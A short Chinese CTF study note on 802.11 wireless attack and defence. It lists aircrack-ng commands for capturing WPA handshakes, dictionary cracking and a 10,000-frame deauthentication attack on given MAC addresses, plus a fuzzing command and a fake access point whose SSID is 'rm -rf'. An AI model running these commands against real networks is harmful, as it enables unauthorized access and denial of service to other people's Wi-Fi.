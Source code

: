```yaml
---
title: CTF | 无线网络-802.11攻与防
date: 2018-08-17 08:56:44
---
```

<!-- more -->
### 常见的无线攻击威胁


#### fake ap攻击
#### ARP&Dns劫持
####  WIFI DOS 公攻击

#### 操作命令：

`iwconfig`   
`airm`   
`airodump-ng 名称`   
`airmon-ng start name`  
`airodump-ng --bssid xxx -c 信道 -w 保存文件 wlan0mon`   
`aircrack-ng 包 -w 字典 `  
`airodump-ng --bssid B4:0B:44:C2:D5:FF -c 11 -w xmantest wlan0mon`  
`--ivs` 只抓握手包

`airodump-ng wlan0mon`

切换信道：
`iwconfig wlan0mon channel 11`  
踢下线：
`aireplay-ng -0 10000 -a  B4:0B:44:C2:D5:FF -c C4:B3:01:C4:27:31 wlan0mon`
wlan.fc.type_subtype==12

### 无线攻防与进阶
- ProbeRequest Frame
  - ProbeRequest SSID 暴露位置信息&定位
- WPA-Radius 企业无线攻防
- 攻击802.11客户端
### 针对无线设备的漏洞挖掘
- 802.11 Fuzzing
- 
### 无线攻击的识别与防御

fuzz 要根据协议规范，不然协议不认，长度无所谓，但是帧类型的话要根据规范
要知道ap发给客户端还是客户端发给ap

wireshark 流量还原

#### wifuzz 小工具

`python wifuzz.py -s 尿尿 -i wlan0mon probe `
scapy  封装好协议 

`iwconfig wlan0mon channel 1`

`airbase-ng -e "rm -rf" -c 1 -v wlan0mon`


推荐博客：http://www.wiattack.net/index.php/archives/7/
